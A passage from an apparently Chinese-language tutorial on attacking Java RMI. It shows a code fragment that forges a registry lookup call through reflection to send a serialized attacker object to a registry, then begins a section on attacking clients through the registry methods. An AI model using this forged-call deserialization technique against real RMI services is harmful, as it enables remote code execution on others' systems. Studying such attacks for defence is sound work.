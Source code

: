 ```java
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}
```

![Demo2结果](./images/47.png)

###  3.2. <a name='-1'></a>攻击客户端
####  3.2.1. <a name='-1'></a>注册中心攻击客户端
在通信过程中, `RMI`与注册中心以及服务端进行了交互, 我们可以对这两者做手脚, 从而达到攻击客户端的目的. 对于注册中心来说, 还是从之前的五个方法触发:
 - bind
 - unbind
 - rebind
 - list
 - lookup
